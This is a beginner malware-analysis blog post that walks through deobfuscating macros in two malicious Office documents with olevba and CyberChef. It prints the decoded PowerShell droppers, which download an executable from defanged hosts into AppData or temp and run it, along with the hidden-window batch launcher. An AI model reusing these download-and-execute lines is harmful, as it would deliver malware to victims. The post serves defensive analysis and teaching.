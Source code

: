 ```yaml
---
layout: post
title: "Analyzing Macro enabled Office Documents"
image: "/images/msofficemacros/cover.png"
description: "Learn how to analyze MS Office Macro enabled Documents, a step-by-step guide to identifying and reversing malicious macros, and how to use olevba and cyberchef to decode and analyze the macro code. Analyzing Macro enabled Office Documents, a comprehensive guide to malware analysis, reverse engineering, and forensic investigations."
keywords: "Malware-Analysis, Reverse-Engineering, Macro enabled Office Documents, Office Document Analysis, Cyber 5W, Malware Analysis, Reverse Engineering, Gafgyt Backdoor Analysis, JavaScript Deobfuscation Techniques, Hard disk structure and analysis"
tags: [Malware-Analysis, Reverse-Engineering] 
---
```

Experience Level required: beginner 

# Objectives

In this blog we will Learn how to analyze MS Office Macro enabled Documents.

{% highlight text %}
1st sample:
    8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5
2nd sample:
    a9f8b7b65e972545591683213bb198c1767424423ecc8269833f6e784aa8bc99
{% endhighlight %}

# 1st Sample

Let's see the sample in Virus Total

![](/images/msofficemacros/image2.jpg)

37 of 63 security vendors detected this file as malicious. 

Let's open the file.

![](/images/msofficemacros/image1.jpg)

It uses a social engineering technique to persuade the user to enable the macros that lead to the infection of the user.

Let's see the macro code of the sample, I'll use olevba

{% highlight text %}
olevba "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm"
{% endhighlight %}
![](/images/msofficemacros/image3.jpg)

It has many suspicious functions, It also has base64 strings

![](/images/msofficemacros/image7.jpg)

Let's dump the macro code to a file to see it better

{% highlight text %}
olevba -c "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm" > dump.vba
{% endhighlight %}
Let's view the dumped file with notepad ++ (you can view it with any text editor software)

![](/images/msofficemacros/image4.jpg)

This function concatenates two strings, then reverses the result string and assigns it to **Prefix3**.

![](/images/msofficemacros/image5.jpg)

I'll use this python script to reverse the string

{% highlight text %}
def reverse_string(input_string):
    return input_string[::-1]

input_string = "cne- 1 niw- exe.llehsrewop\\0.1v\\llehSrewoPswodniW\\23metsyS\\swodniW\:C"
reversed_string = reverse_string(input_string)
print("Original string:", input_string)
print("Reversed string:", reversed_string)
{% endhighlight %}

![](/images/msofficemacros/image6.jpg)

**Prefix3** =
{% highlight text %}
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -win 1 -enc
{% endhighlight %}
Let's go to the next function

The function concatenates 8 base64 encoded strings and assigns it to **Prefix2**.

![](/images/msofficemacros/image8.jpg)

I'll use cyberchef to decode the strings

![](/images/msofficemacros/image9.jpg)

**Prefix2** =
{% highlight text %}
$ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New-Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif","$env:APPDATA\$ProcName");
Start-Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

Let's go to the next function

![](/images/msofficemacros/image10.jpg)

It concatenates strings

**Prefix1** =
{% highlight text %}
start /MIN
{% endhighlight %}

Let's go to the last function

![](/images/msofficemacros/image11.jpg)

It concatenates **Prefix1**, **Prefix3** and **Prefix2** and print the result in a .bat file named "Bixkcozkkemqyslgmpvwuri.bat" then it runs the file

The resulted .bat file will be:
{% highlight text %}
start /MIN C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  - win 1  - enc $ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New - Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif", "$env:APPDATA\$ProcName");
Start - Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

This script runs powershell script to download file from "hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif" to the current user's AppData directory with name "Ktaqftbffhqhoxzyblssi.exe" and executes it.

# 2nd Sample

32 of 60 security vendors detected this file as malicious.

![](/images/msofficemacros/image12.jpg)

Let's open the sample

![](/images/msofficemacros/image13.jpg)

It also employs a social engineering technique to convince the user to enable macros, which then leads to the user being infected.

Let's see its macro code

{% highlight text %}
olevba C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls
{% endhighlight %}

![](/images/msofficemacros/image14.jpg)

It uses **wscript** language and base64 encoding

Let's dump it to file
{% highlight text %}
olevba -c C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls > dump.vba
{% endhighlight %}
![](/images/msofficemacros/image15.jpg)

Let's try to decode this strings

![](/images/msofficemacros/image16.jpg)

{% highlight ps1 %}

$fdsfsdf = "fsfdghfddfgh";
(NEw-objEct `N`e`T`.`W`e`B`C`l`i`e`N`T`).DownLoAdfIlE('hxxp[://]suyashcollegeofnursing[.]com/language/Don163/CryptedFile163[.]exe', "$ENv:temp\jfcbvept.exe");
Start "$ENv:temp\jfcbvept.exe";
\$fdsfsdf = "fsfdghfddfgh";

{% endhighlight %}
This powershell script is downloading a file from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it starts it

CreateObject("Wscript.Shell") return is assigned to **zKShMevSa**

![](/images/msofficemacros/image17.jpg)

So **zKShMevSa** acts like **Wscript.Shell** and **zKShMevSa**.Run = Wscript.Shell.Run.

It's clear now **Wscript.Shell.Run** executes the powershell script that downloads the malware from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it executes it.

This blog is authored by **Mostafa Farghaly(M4lcode)**.
